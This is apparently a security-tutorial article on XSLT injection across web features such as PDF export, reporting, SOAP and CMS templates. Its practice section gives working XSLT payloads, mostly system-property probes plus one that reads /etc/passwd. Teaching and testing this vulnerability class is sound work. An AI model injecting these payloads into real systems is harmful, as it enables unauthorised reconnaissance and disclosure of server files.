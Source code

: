 ```yaml
---
title: XSLT Injection in Web Applications Context
description: Explore how XSLT injection affects web applications, with exploitation
  techniques and common vulnerable features.
keywords:
- XSLT injection
- XML vulnerabilities
- web application security
- PDF generation attacks
- report generation vulnerabilities
- SOAP service exploitation
- data transformation APIs
- CMS XSLT injection
- RSS feed transformation
- server-side XSLT exploitation
---
```


# Application Context

## Context

The goal of this article is to demonstrate how XSLT injection vulnerabilities can be exploited within various web application contexts. XSLT injection is a technique used in offensive cybersecurity to manipulate or execute malicious code through unsanitized user input in XSLT stylesheets. To fully understand this topic, readers need prior knowledge of how XSLT processing works, the structure and parsing of XML, and the basic architecture of web applications, including general techniques for XSLT injection.

## Theory

### XSLT Injection in Web Application Features

XSLT injection vulnerabilities occur when user-supplied input is unsafely embedded into XSLT stylesheets processed by the server. This often happens in application features which transform or generate content using XML or XSLT provided by users. An attacker can exploit these vulnerabilities by identifying entry points where their input can affect XSLT processing, injecting malicious XSLT code, and triggering the execution to achieve undesirable effects.

### Common Vulnerable Application Contexts

Various application contexts are prone to XSLT injection due to their reliance on dynamic transformations and rendering of user-generated content.

- **PDF Generation**: Features allowing users to export data into PDF formats, where they can upload XML or XSLT, present opportunities for injection attacks.
- **XML Report Generation**: Custom reporting capabilities that use XML/XSLT templates can be targeted to alter data transformations maliciously.
- **Data Transformation APIs**: Endpoints converting XML to HTML or JSON through XSLT can be exploited if they process untrusted input.
- **SOAP Web Services**: Transformations applied to SOAP messages with XSLT are vulnerable to injection by crafted payloads.
- **RSS Feed Transformation**: Applications using XSLT to render RSS feeds risk manipulation if they do not validate input sources.
- **CMS Systems**: Content management systems that permit custom XSLT for rendering content may give attackers a path to introduce malicious stylesheets.

### Attacker Mindset: Targeting XSLT in Application Workflows

An offensive strategy includes mapping application features that accept XML/XSLT input or templates. The attacker then probes these features to find reflection or execution of injected XSLT expressions, leveraging business logic, such as report generation or document exports, to trigger these transformations maliciously.

## Practice

### Exploiting PDF Generation via XSLT Injection

1. Identify features for PDF export or report generation that accept XML or XSLT uploads.
2. Inject the following XSLT payload to extract the server operating system's name:

   ```xml
   <xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
       <xsl:template match="/">
           <xsl:value-of select="system-property('os.name')"/>
       </xsl:template>
   </xsl:stylesheet>
   ```

3. Submit the crafted payload and download the resulting PDF.
4. Review the PDF to detect any injected output such as the server OS name.

### Exploiting XML Report Generation with XSLT Injection

1. Locate report generation functions that accept user-supplied XML or XSLT templates.
2. Use the following payload to attempt reading sensitive server-side files:

   ```xml
   <xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
       <xsl:template match="/">
           <xsl:value-of select="document('file:///etc/passwd')"/>
       </xsl:template>
   </xsl:stylesheet>
   ```

3. Trigger the report generation and check the output for contents of the targeted file.

### Targeting Data Transformation APIs for XSLT Injection

1. Identify API endpoints that convert XML to other formats using XSLT.
2. Inject the following payload to gather server user information from API responses:

   ```xml
   <xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
       <xsl:template match="/">
           <xsl:value-of select="system-property('user.name')"/>
       </xsl:template>
   </xsl:stylesheet>
   ```

3. Submit this payload and analyze the API's response for sensitive information returns.

### Exploiting SOAP Web Services with XSLT Injection

1. Discover SOAP endpoints where XSLT transforms messages.
2. Use this payload to determine the Java runtime version in the SOAP response:

   ```xml
   <xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
       <xsl:template match="/">
           <xsl:value-of select="system-property('java.version')"/>
       </xsl:template>
   </xsl:stylesheet>
   ```

3. Inject this payload within a SOAP request and verify the response for the extracted data.

### Attacking RSS Feed Transformation in Web Applications

1. Identify features in applications using XSLT for RSS feed imports or transformations.
2. Inject this payload to extract the architecture of the server into the feed:

   ```xml
   <xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
       <xsl:template match="/">
           <xsl:value-of select="system-property('os.arch')"/>
       </xsl:template>
   </xsl:stylesheet>
   ```

3. Submit the payload and closely inspect the transformed feed output for leaked data.

### Compromising CMS Systems via Custom XSLT Injection

1. Identify CMS plugins/modules allowing custom XSLT for rendering content.
2. Inject the following payload to access and present the server's working directory:

   ```xml
   <xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
       <xsl:template match="/">
           <xsl:value-of select="system-property('user.dir')"/>
       </xsl:template>
   </xsl:stylesheet>
   ```

3. Use the CMS to preview or publish the content and look for leaking server data.

## Tools

- **Burp Suite**
- **Postman**
- **curl** 

This document provides a practical framework for understanding and exploiting XSLT injection in various application contexts, allowing attackers to leverage weak points in web services that use or transform XML input in insecure ways.